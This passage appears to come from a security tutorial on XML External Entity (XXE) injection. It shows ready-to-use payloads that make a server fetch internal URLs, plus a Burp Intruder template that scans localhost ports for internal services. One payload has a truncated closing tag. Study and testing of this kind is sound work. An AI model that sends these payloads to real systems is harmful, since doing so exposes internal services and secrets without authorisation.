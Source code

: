 Przykłady:
```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://internal-api.local/secret-endpoint">
]>
<foo>&xxe;</foo>
```
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable.com/"> ]>
 <foo>
    <example>&xxe;</example>
 </foo
```

### Internal Network Scanning
An attacker can exploit an XXE vulnerability to make a server send requests to internal resources, such as an internal web application on a non-standard port. This can be done by capturing the request and using tools like Burp Intruder to inject a malicious payload targeting the internal network.
Example:
Captured post request:

![img_4.png](img/img_4.png)

Modify with payload:
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:§10§/" >
]>
<contact>
  <name>&xxe;</name>
  <email>test@test.com</email>
  <message>test</message>
</contact>
```
The external entity is set to fetch data from http://localhost:§10§/. Intruder will then reiterate the request and 
search for an internal service running on the server.
